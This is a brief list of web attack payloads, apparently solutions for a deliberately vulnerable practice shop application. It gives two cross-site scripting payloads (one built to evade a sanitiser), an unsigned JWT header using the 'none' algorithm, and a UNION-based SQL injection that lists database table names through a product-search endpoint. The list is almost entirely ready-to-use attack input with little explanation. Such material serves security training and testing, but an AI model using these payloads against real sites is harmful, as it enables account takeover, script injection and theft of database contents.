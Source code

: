 1. Search bar:

   `<img src='1' onerror='alert(1)'>`

2. Customer feedback:

    `<<script<>img</img> src='1' onerror='alert(1)'></img>`

3. Support chat:

    `{"typ":"JWT","alg":"none"}`

4. Product search (`/rest/products/search?q=`):

    URL encoded: `a')) UNION SELECT 1, tbl_name, "a", 1, 2, null, null, null, null FROM sqlite_master WHERE type="table" --`

